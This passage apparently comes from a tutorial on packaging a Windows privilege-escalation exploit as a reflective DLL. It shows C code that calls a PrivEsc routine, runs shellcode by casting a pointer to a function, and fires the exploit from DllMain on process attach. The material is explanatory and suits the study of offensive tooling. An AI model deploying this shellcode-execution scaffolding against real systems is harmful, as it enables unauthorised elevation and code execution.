 I also noticed and appreciated that others structured the code into two parts: Exploit and Exploiter.  Exploiter does the heavy lifting with functions, and Exploit calls the functions and runs the shellcode after the exploit completes.  For example, I made a privesc and the code required to accomplish the elevation was bundled in a function called `PrivEsc` contained within my `Exploiter.cpp` file.  The Exploit file was very simple in comparison:

```
#include <Windows.h>
#include "Exploit.h"
#include "Exploiter.h"

static VOID ExecutePayload(LPVOID lpPayload)
{
	VOID(*lpCode)() = (VOID(*)())lpPayload;
	lpCode();
	return;
}

VOID Exploit(LPVOID lpPayload)
{
	PrivEsc();
	ExecutePayload(lpPayload);
}
```

That `ExecutePayload` function is there to... well.... Execute the payload.  We'll talk about it later, but make sure that you have it accepting a pointer and executing it.  That'll be how we get a payload into the running thread.

All the `Exploit.cpp` needs to do is give a clear way for me to run the code I wanted to get system, then call the function responsible for starting the shellcode.  In my case, all I needed to do was to somehow run `PrivEsc` and then `ExecutePayload(pPayload)`.

Sure enough, if you check out the `ReflectiveDll.c` file, you can see that it is really straightforward and should look a lot like your previous `DllMain` function, except there's a function call in `DLL_PROCESS_ATTACH`:

```
#include "ReflectiveLoader.h"
#include "Exploit.h"

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD dwReason, LPVOID lpReserved)
{
	BOOL bReturnValue = TRUE;
	switch (dwReason)
	{
	case DLL_QUERY_HMODULE:
		if (lpReserved != NULL)
			*(HMODULE *)lpReserved = hAppInstance;
		break;
	case DLL_PROCESS_ATTACH:
		hAppInstance = hinstDLL;
		//MessageBox(0, "In DLLMain", "Status", MB_OK);
		Exploit(lpReserved);
		break;
	case DLL_PROCESS_DETACH:
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
		break;
	}
	return bReturnValue;
}
```
